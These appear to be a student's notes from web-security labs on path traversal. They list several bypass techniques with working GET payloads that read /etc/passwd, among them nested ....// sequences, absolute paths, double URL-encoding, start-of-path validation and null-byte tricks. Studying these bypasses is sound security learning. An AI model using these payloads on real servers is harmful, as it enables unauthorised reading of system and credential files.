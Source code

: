 - can ==read arbitrary files== on the server that is running an application
- display etc/passwd to test, standard file, no sensitve info

absolute/relative path, nested traversal str for strip, encoded
#### 1. Basic ../../../etc/passwd on GET request

DEFENSE: no defense

ATTACK
`<img src="/loadImage?filename=218.png">`
code need filename param to get img file from dir
`/var/www/images/218.png`

use ../ to go out of dir 
```
GET /image?filename=../../../etc/passwd 
```




#### 2. Traversal sequences(../) blocked with absolute path bypass(/)

DEFENSE: Strips/block traversal path strings (../) from input 

ATTACK: 
1. Absolute path
```
/etc/passwd
```

#### 3. Traversal sequences stripped non-recursively (strip only once) use(....//)

DEFENSE: Strips/block traversal path strings (../) from input

ATTACK: 
1. Use nested traversal string
- so the when app strips(the inside pattern, red),  the ==../ traversal sequence ==string still left(blue)  making it still valid since app only strips once and does not check for second round of modified string
![[Pasted image 20231211182203.png]]

```
USE:
....// or ....\/

payload
GET /image?filename=....//....//....//etc/passwd

After stripped, app reads as
../../../etc/passwd

```

#### 4. Traversal sequences stripped mechanism bypass via double URL-encode

Burp Intruder provides the predefined payload list **Fuzzing - path traversal**. This contains some encoded path traversal sequences that you can try.

HOW IT WORKS ON TARGET MACHINE
2nd endoded payload > ==server== decodes >  strip ../ > pass to app
1st encoded payload >==app== MAY decode > orig payload > DOES NOT STRIP>  pass to function(../../../etc/passwd)

PROBLEM heres is that it only strip once.

![[Pasted image 20231214165720.png]]

on left side
![[Pasted image 20231214164504.png]]

#### 5. Lab: File path traversal, validation of start of path only if exist 
only checks if ==/var/www/images/== exist on root path of request otherwise return err so ==/var/www/images/../../../etc/passwd==  payload might bypass the validation

![[Pasted image 20231214201652.png]]

```
GET /image?filename=/var/www/images/../../../etc/passwd
```

#### 6. File path traversal, validation of file extension with null byte injection bypass




- app approves that its valid since it contains .pdf
- os ignore after the null byte 
- resulting to valid ../../../etc/passwd to be executed by the os
